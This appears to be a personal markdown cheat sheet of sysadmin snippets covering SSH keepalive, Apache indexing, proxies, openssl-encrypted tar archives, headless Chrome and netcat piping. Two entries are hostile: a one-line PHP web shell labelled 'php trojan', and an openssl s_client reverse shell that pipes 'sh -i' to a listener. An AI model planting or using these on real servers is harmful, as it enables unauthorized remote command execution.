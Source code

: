 # fswatch
`go install github.com/codeskyblue/fswatch`


# httpd
* [http://httpd.apache.org/docs/trunk/mod/mod_autoindex.html#indexoptions](http://httpd.apache.org/docs/trunk/mod/mod_autoindex.html#indexoptions)

```
Options Indexes FollowSymLinks
IndexOptions FoldersFirst HTMLTable NameWidth=* VersionSort
```


# php trojan
```
($_=@$_GET[2]).@$_($_POST[1])
```


# ssh connection alive
## server
```
TCPKeepAlive yes #表示TCP保持连接不断开
ClientAliveInterval 300 #指定服务端向客户端请求消息的时间间隔，单位是秒，默认是0，不发送。
ClientAliveCountMax 3 #指服务端发出请求后客户端无响应则自动断开的最大次数。使用默认给的3即可。
```
### 注意：TCPKeepAlive必须打开，否则直接影响后面的设置。ClientAliveInterval设置的值要小于各层防火墙的最小值，不然，也就没用了。最后要重启sshd服务才生效
## client
```
Host * #表示需要启用该规则的服务端（域名或ip）
	ServerAliveInterval 60 #表示没60秒去给服务端发起一次请求消息（这个设置好就行了）
	ServerAliveCountMax 3 #表示最大连续尝试连接次数（这个基本不用设置）
```
## one time
`ssh -o ServerAliveInterval=30 user@host`


# secure tar
```
tar czf - package | openssl des3 -salt -k youPassword -out tar.tar.gz
# dd if=tar.tar.gz | openssl tar -d -k youPassword |tar zxf -
openssl des3 -d -salt -k youPassword -in tar.tar.gz | tar xzf -
```


# bash proxy
```
export https_proxy=10.0.0.52:8080
export https_proxy=user:pass@192.158.8.8:8080
export https_proxy=socks://10.0.0.52:1080
export https_proxy=socks4://10.0.0.52:1080
export https_proxy=socks5://10.0.0.52:1080
export ftp_proxy=socks5://10.0.0.52:1080
export no_proxy="*.aiezu.com,10.*.*.*,192.168.*.*,*.local,localhost,127.0.0.1"
```


# dig
`dig txt b.aliyuntest.com @8.8.8.8`

# shell beep
`echo -ne '\007'` or `echo -e "\a"` or `echo -n Ctrl+V Ctrl+G`

# gorpc
`protoc -I server/proto/ server/proto/geo.proto --go_out=plugins=grpc:server/proto`

# headless chrome
`chrome --headless --disable-gpu --print-to-pdf https://www.baidu.com`
`chrome --headless --disable-gpu --dump-dom https://www.baidu.com`
`chrome --headless --disable-gpu --screenshot --window-size=1280,1696 https://www.baidu.com`

# quick ssl
`go run $GOROOT/src/crypto/tls/generate_cert.go --host m.treevc.net`

# nc + pipe
```
nc -4kl 2222 <pipe | nc 127.0.0.1 3000 >pipe
```

# openssl s_server and s_client
```
openssl s_server -quiet -key key.pem -cert cert.pem -port 2333
sh -i < pipe 2>&1 | openssl s_client -quiet -connect 127.0.0.1:2333 > pipe
```
